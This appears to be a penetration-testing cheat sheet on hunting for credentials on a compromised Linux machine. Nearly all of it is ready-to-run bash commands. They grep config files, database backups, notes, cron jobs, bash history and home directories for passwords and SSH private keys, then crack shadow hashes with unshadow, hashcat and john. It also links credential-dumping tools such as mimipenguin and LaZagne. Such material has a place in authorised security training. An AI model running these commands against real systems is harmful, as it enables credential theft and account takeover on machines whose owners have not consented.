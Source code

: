 ```yaml
---
description: Common Password Attack on Linux Machine
---
```


# Linux Password Hunting

### Config Files Search

{% code overflow="wrap" %}
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
{% endcode %}

### Credentials in Configuration Files

{% code overflow="wrap" %}
```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
{% endcode %}

### Database Backup Search

{% code overflow="wrap" %}
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
{% endcode %}

### Search Notes/txt Files

{% code overflow="wrap" %}
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
{% endcode %}

### Search Scripts on Linux

{% code overflow="wrap" %}
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
{% endcode %}

### Search Cronjob

{% code overflow="wrap" %}
```bash
cat /etc/crontab
ls -la /etc/cron.*/
```
{% endcode %}

### Search SSH Private Key

{% code overflow="wrap" %}
```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```
{% endcode %}

### Bash History

{% code overflow="wrap" %}
```bash
tail -n5 /home/*/.bash*
```
{% endcode %}

### Cracking Linux Credentials

{% code overflow="wrap" %}
```bash
# unshadow local creds
unshadow passwd.bak shadow.bak > unshadow.hash

# Perform Dictionary Attack
hashcat -m 1800 -a 0 unshadow.hash /usr/share/wordlists/rockyou.txt -o cracked_shadow
# or
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.hash
```
{% endcode %}

### Tools

* [https://github.com/unode/firefox\_decrypt](https://github.com/unode/firefox\_decrypt)
* [https://github.com/huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin)
* [https://github.com/AlessandroZ/LaZagne/tree/master/Linux](https://github.com/AlessandroZ/LaZagne/tree/master/Linux)
